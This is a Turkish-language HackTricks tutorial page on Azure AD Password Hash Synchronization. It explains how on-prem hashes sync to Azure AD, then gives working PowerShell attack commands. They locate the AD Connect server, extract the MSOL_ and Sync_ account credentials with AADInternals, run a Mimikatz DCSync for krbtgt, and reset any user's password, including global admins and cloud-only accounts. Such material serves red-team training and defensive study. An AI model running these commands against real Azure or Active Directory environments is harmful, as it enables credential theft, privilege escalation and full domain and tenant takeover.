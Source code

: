 # Az - PHS - Parola Hash Senkronizasyonu

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Temel Bilgiler

[Belgelerden:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Parola hash senkronizasyonu**, hibrit kimlik elde etmek için kullanılan oturum açma yöntemlerinden biridir. **Azure AD Connect**, bir kullanıcının parolasının hash'inin, on-premises Active Directory örneğinden bulut tabanlı Azure AD örneğine senkronize edilmesini sağlar.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Bu, şirketler tarafından on-prem AD'yi Azure AD ile senkronize etmek için kullanılan **en yaygın yöntemdir**.

Tüm **kullanıcılar** ve **parola hash'lerinin hash'i** on-prem'den Azure AD'ye senkronize edilir. Ancak, **düz metin parolalar** veya **orijinal** **hash'ler** Azure AD'ye gönderilmez.\
Ayrıca, **Yerleşik** güvenlik grupları (alan yöneticileri gibi...) **Azure AD'ye senkronize edilmez**.

**Hash senkronizasyonu** her **2 dakikada** bir gerçekleşir. Ancak, varsayılan olarak, **parola süresi dolma** ve **hesap** **süresi dolma** Azure AD'de **senkronize edilmez**. Bu nedenle, **on-prem parolasının süresi dolmuş** (değiştirilmemiş) bir kullanıcı, eski parolayı kullanarak **Azure kaynaklarına erişmeye devam edebilir**.

Bir on-prem kullanıcısı bir Azure kaynağına erişmek istediğinde, **kimlik doğrulama Azure AD'de gerçekleşir**.

**PHS**, **Kimlik Koruma** ve AAD Alan Hizmetleri gibi özellikler için gereklidir.

## Pivotlama

PHS yapılandırıldığında bazı **ayrılmış hesaplar** otomatik olarak **oluşturulur**:

* **`MSOL_<installationID>`** hesabı, on-prem AD'de otomatik olarak oluşturulur. Bu hesaba **Dizin Senkronizasyon Hesapları** rolü verilir (bkz. [belgeler](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), bu da onun **on-prem AD'de replikasyon (DCSync) izinlerine sahip olduğu anlamına gelir**.
* Azure AD'de **`Sync_<on-prem ADConnect Sunucusunun adı>_installationID`** adlı bir hesap oluşturulur. Bu hesap, Azure AD'deki **HERHANGİ bir kullanıcının** (senkronize edilmiş veya yalnızca bulut) parolasını **sıfırlayabilir**.

Önceki iki ayrıcalıklı hesabın parolaları, **Azure AD Connect'in kurulu olduğu sunucudaki bir SQL sunucusunda** **saklanır**. Yöneticiler, bu ayrıcalıklı kullanıcıların parolalarını düz metin olarak çıkarabilir.\
Veritabanası `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` konumundadır.

Bir tablodan yapılandırmayı çıkarmak mümkündür, biri şifreli olmak üzere:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Şifreli yapılandırma**, **DPAPI** ile şifrelenmiştir ve **on-prem AD'deki `MSOL_*`** kullanıcısının parolalarını ve AzureAD'deki **Sync\_\*** parolasını içerir. Bu nedenle, bunları ele geçirerek AD ve AzureAD'ye yükseltilmiş erişim sağlamak mümkündür.

Bu kimlik bilgilerin nasıl saklandığı ve çözüldüğüne dair [tam bir genel bakış bu konuşmada bulunmaktadır](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### **Azure AD connect sunucusunu bulma**

Eğer **Azure AD connect'in kurulu olduğu sunucu** alan katılımcısıysa (belgelerde önerilir), onu bulmak mümkündür:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_* İstismar Etme
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Bu kimlik bilgilerini elde etmek için [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) aracını da kullanabilirsiniz.
{% endhint %}

### Sync\_\* İstismar Etme

**`Sync_*`** hesabını ele geçirerek, herhangi bir kullanıcının (Global Yöneticiler dahil) **şifresini sıfırlamak** mümkündür.
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Aynı zamanda **sadece bulut** kullanıcılarının şifrelerini değiştirmek de mümkündür (bu beklenmedik olsa bile)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Kullanıcının şifresini dökmek de mümkündür.

{% hint style="danger" %}
Başka bir seçenek, **Sync** kullanıcısının **izinlere** sahip olduğu bir **hizmet ilkesi** için **ayrıcalıklı izinler atamak** ve ardından **o hizmet ilkesine erişmek** olarak privesc sağlamaktır.
{% endhint %}

### Seamless SSO

PHS ile Seamless SSO kullanmak mümkündür, bu da diğer kötüye kullanımlara açıktır. Bunu kontrol edin:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referanslar

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
